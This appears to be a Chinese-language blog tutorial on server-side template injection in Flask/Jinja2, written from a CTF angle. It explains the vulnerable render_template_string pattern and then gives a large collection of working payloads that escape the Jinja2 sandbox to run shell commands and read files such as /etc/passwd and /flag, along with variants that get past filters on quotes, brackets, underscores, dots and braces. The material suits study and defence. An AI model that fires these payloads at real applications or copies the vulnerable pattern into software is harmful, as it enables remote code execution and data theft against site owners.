









关于Flask的前置知识 flask是什么 Flask诞生于2010年，用python语言基于werkzeug工具箱编写的轻量级web开发框架。flask使用jinja2作为渲染引擎，在网站的根目录下templates文件夹用来存放html文件（模板文件）。
模板引擎：即引擎中具有一套生成html的程序,只需获取用户的数据,然后放在渲染函数中即可生成一个前端的html页面。
Flask请求参数 url传递参数 转换器<> 默认为字符串，加上int转化数据类型
1 2 3 4 5 6 7 8 9 10 from flask import Flaskapp = Flask(__name__) @app.route('/users/<int:user_id>' def user_info (user_id ): print (type (user_id)) return 'hello user {}' .format (user_id) if __name__ == "__main__" : app.run()
这是一个简单的利用url处传参的flask的代码，运行后在页面访问127.0.0.1:5000默认端口加上代码中指定的路径和数据：

request全局变量 使用request对象的args属性调用get方法获取参数值。
1 2 3 4 5 6 7 8 9 10 from flask import Flask,requestapp = Flask(__name__) @app.route('/articles/' def get_articles (): id = request.args.get('id' ) return 'articles id {}' .format (id ) if __name__ == '__main__' : app.run()
此时指定代码运行访问的路径为/articles，通过request的args属性调用get方法获取id的参数值：

Flask模块响应 相关函数
渲染函数
描述
render_template
渲染指定文件内容
render_template_string
渲染一个字符串
使用render_template渲染模板并返回给浏览器
创建一个模板index.html（放在新建文件夹templates下，这是Jinja2渲染的默认路径）
1 2 3 4 5 6 7 8 9 10 11 12 <!DOCTYPE html > <html lang ="en" > <head > <meta charset ="UTF-8" > <title > Title</title > </head > <body > 我的模板HTML内容 <br > {{my_str}} <br > {{my_int}} </body > </html >
后端视图代码
1 2 3 4 5 6 7 8 9 10 11 12 from flask import Flask,request,render_templateapp = Flask(__name__) @app.route('/' def home (): mint = 123 mstr = 'abc' return render_template('index.html' ,my_int=mint,my_str=mstr) if __name__=='__main__' : app.run()
运行访问页面：

以上模板是安全的，因为没有用户可以控制的输入参数。如果满足参数可控，没有过滤，则可能存在ssti模板注入漏洞。
具有提交参数的模块响应
创建index.html
1 2 3 4 5 6 7 8 9 10 <!DOCTYPE html > <html lang ="en" > <head > <meta charset ="UTF-8" > <title > Title</title > </head > <body > {{key}} </body > </html >
后端d代码
1 2 3 4 5 6 7 8 9 10 11 from flask import Flask,request,render_templateapp = Flask(__name__) @app.route('/' def home (): key = request.args.get('key' ) return render_template('index.html' ,key=key) if __name__=='__main__' : app.run()

发现当我们尝试输入一个变量让代码进行执行时，页面并没有返回1-1的结果，而是将我们输入的内容原样进行输出了。
这是因为render_template函数自动渲染对应的内容（index.html），不会再执行渲染。但是其他的渲染函数就可能存在再次渲染的问题：render_template_string。
使用render_template_string渲染模板（ssti注入的原理） 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 from flask import Flask,request,render_template_string app = Flask(__name__) @app.route('/' def home (): tempaltes = ''' <!DOCTYPE html> <html> <head> <title>Title</title> <meta charset="utf-8"> </head> <body> <br>{} </body> </html> ''' .format (request.args.get('key' )) return render_template_string(tempaltes) if __name__ == '__main__' : app.run()
直接在python文件中对用户提交的数据使用tempaltes进行存放，对tempaltes中提交的数据进行render_template_string渲染，因此会造成ssti漏洞。

我们发现0被执行了，返回计算结果0。
这是因为在flask中，渲染引擎(Jinja2)会将{{ --- }}视为变量标识符，会将其包含的内容作为变量处理，从而包裹的语句被执行。
ssti模板注入的绕过 ssti模板注入原理 服务端接收了用户的输入，将其作为 Web 应用模板内容的一部分，在进行目标编译渲染的过程中，执行了用户插入的恶意内容，因而可能导致了敏感信息泄露、代码执行、GetShell 等问题。
jinja2语法 对于官方文档的有如下解释：
https://jinja.palletsprojects.com/en/3.0.x/templates/
{% ... %}可以用来声明变量，当然也可以用于循环语句和条件语句。{{ ... }}用于表达式 打印到模板输出，执行双花括号中的内容。{# ... #}对于未包含在模板输出中的[注释]
python中的基本类（沙盒逃逸的魔术方法）
在python中，object类是所有类的基类，如果定义一个类时没有指定继承哪个类，则默认继承object类。
1 2 3 4 5 6 7 8 9 10 11 12 13 __class__ 返回调用的参数类型 // 寻找基类的办法 __mro__ 返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。（解析顺序） __base__ 返回该对象所继承的基类，一般为object __bases__ 返回类型列表 // 找到object后 执行函数的方法 __subclasses__ 返回object的子类列表的所有子类 __init__ 类的初始化方法 __globals__ 对包含函数全局变量的字典的引用

获取os._wrap_close在object类中的位置
1 2 3 import osprint ([].__class__.__base__.__subclasses__().index(os._wrap_close))
通过fuzz检测：爆破对应位置的数字


工具检测 
一些payload 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 读取文件/执行命令： {{''.__class__.__bases__[0].__subclasses__()[134].__init__.__globals__['popen']('dir').read()}} {{''.__class__.__mro__[1].__subclasses__()[134].__init__.__globals__['popen']('dir').read()}} {{().__class__.__bases__[0].__subclasses__()[80].__init__.__globals__.__builtins__['eval']("__import__('os').popen('cat /flag').read()")}} {{''.__class__.__base__.__subclasses__()[134].__init__.__globals__['__builtins__']['open']('flag.txt').read()}} {% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()") }}{% endif %}{% endfor %} #读写文件 {% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}
绕过payload 过滤方括号 1 2 3 4 5 6 7 使用__getitem__绕过： '' .__class__.__mro__.__getitem__(2 )<-> 等价于'' .__class__.__mro__[2 ]{{'' .__class__.__mro__[2 ].__subclasses__().__getitem__(59 ).__init__.__globals__.__builtins__['eval' ]("__import__('os').popen('cat /etc/passwd').read()" )}} {{'' .__class__.__mro__[2 ].__subclasses__().__getitem__(59 ).__init__.__globals__.__builtins__.eval ("__import__('os').popen('cat /etc/passwd').read()" )}}（不能直接进入python环境下用，可能是python程序运行的时候会自己加载什么东西。）
过滤引号（单引号 双引号） 1 2 3 4 5 6 7 8 9 10 11 12 13 使用get post 或cookies方式提交： request.args.参数 requests.values.参数 reuqest.cookies.参数 {{x.__init__.__globals__[request.args.x1].eval (request.args.x2)}}&x1=__builtins__&x2=__import__ ('os' ).popen('cat /flag' ).read() x可以使用原来的().__class__.__bases__[0 ].__subclasses__()[80 ]，也可以使用任意字母。 使用chr ： {{x.__init__.__globals__.__builtins__['eval' ]("__import__('os').popen('ls').read()" )}} {% set chr =x.__init__.__globals__.__builtins__.chr %}{{x.__init__.__globals__.__builtins__. eval ( chr (95 ) %2b chr (95 ) %2b chr (105 ) %2b chr (109 ) %2b chr (112 ) %2b chr (111 ) %2b chr (114 ) %2b chr (116 ) %2b chr (95 ) %2b chr (95 ) %2b chr (40 ) %2b chr (39 ) %2b chr (111 ) %2b chr (115 ) %2b chr (39 ) %2b chr (41 ) %2b chr (46 ) %2b chr (112 ) %2b chr (111 ) %2b chr (112 ) %2b chr (101 ) %2b chr (110 ) %2b chr (40 ) %2b chr (39 ) %2b chr (108 ) %2b chr (115 ) %2b chr (39 ) %2b chr (41 ) %2b chr (46 ) %2b chr (114 ) %2b chr (101 ) %2b chr (97 ) %2b chr (100 ) %2b chr (40 ) %2b chr (41 ))}} ['eval' ]这里可以直接用.eval ()代替，eval 里面的执行的语句，把它全部变为chr ()+chr ()的形式，最后不要忘记给+编码为%2b
过滤双下划线 1 2 3 4 {{()[request.args.class ].__bases__[0 ].__subclasses__()[59 ].__init__.__globals__.__builtins__['eval' ]("__import__('os').popen('ls').read()" )}}&class =__class__
绕过双花括号 1 2 3 4 5 6 {% print ('' .__class__.__mro__[2 ].__subclasses__()[59 ].__init__.func_globals.linecache.os.popen('' )) %} {% if '' .__class__.__mro__[2 ].__subclasses__()[59 ].__init__.func_globals.linecache.os.popen('' ) %}1 {% endif %}
绕过点（过滤器） 1 2 3 request.__class__ request|attr("__class__" )
绕过引号和下划线 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 {{(x|attr(request.cookies.x1)|attr(request.cookies.x2)|attr(request.cookies.x3))(request.cookies.x4).eval (request.cookies.x5)}} cookie传值 Cookie:x1=__init__;x2=__globals__;x3=__getitem__;x4=__builtins__;x5=__import__ ('os' ).popen('cat /flag' ).read() X-Forwarded-For:{{()|attr(request.args.x1)|attr(request.args.x2)|attr(request.args.x3)()|attr(request.args.x4)(174 )|attr(request.args.x5)|attr(request.args.x6)|attr(request.args.x4)(request.args.x7)|attr(request.args.x4)(request.args.x8)(request.args.x9)}} x1=__class__&x2=__base__&x3=__subclasses__&x4=__getitem__&x5=__init__ &x6=__globals__&x7=__builtins__&x8=eval &x9=__import__ ("os" ).popen('cat+/flag' ).read()
绕过引号 中括号 1 2 3 {% set chr =().__class__.__bases__.__getitem__(0 ).__subclasses__().__getitem__(250 ).__init__.__globals__.__builtins__.chr %}{% for c in ().__class__.__base__.__subclasses__() %}{% if c.__name__==chr (95 )%2bchr(119 )%2bchr(114 )%2bchr(97 )%2bchr(112 )%2bchr(95 )%2bchr(99 )%2bchr(108 )%2bchr(111 )%2bchr(115 )%2bchr(101 ) %}{{ c.__init__.__globals__.popen(chr (119 )%2bchr(104 )%2bchr(111 )%2bchr(97 )%2bchr(109 )%2bchr(105 )).read() }}{% endif %}{% endfor %}
参考文章 yu师傅：https://blog.csdn.net/miuzzx/article/details/110220425
https://xz.aliyun.com/t/7746
https://www.cnblogs.com/zaqzzz/p/10263396.html
https://blog.csdn.net/qq_33942040/article/details/109164895
https://blog.csdn.net/qq_43936524/article/details/116306294
写在最后 关于ssti注入的绕过从一开始的套用模板payload，到现在逐步去了解原理，payload的构成，能够对ssti有了一点浅显的认知，但是由于语句是多样的，我并没有对次进行深入的学习，只简单地在eval执行命令这一些语句上进行绕过和过滤的学习，对自己的了解做一个简单的总结。